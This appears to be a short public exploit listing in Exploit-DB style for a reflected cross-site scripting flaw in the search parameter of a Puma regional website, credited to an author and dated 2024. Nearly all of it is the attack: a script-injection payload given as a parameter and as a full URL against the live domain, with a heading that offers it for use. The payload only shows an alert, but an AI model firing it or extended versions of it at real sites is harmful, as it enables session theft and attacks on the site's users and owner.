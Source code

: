 ## Exploit Title: Puma Reflected XSS Vulnerability
## Date: 2024-08-23
## Exploit Author: kerem24
## Vendor: pe.puma.com
## Tested on: Windows
## CVE: N/A

## Exploit Use:

## Rxss Vuln Paramater & Payload
/pe/es/search?&q=</script><script>alert(document.domain)</script>

## Exp

https://pe.puma.com/pe/es/search?&q=</script><script>alert(document.domain)</script>
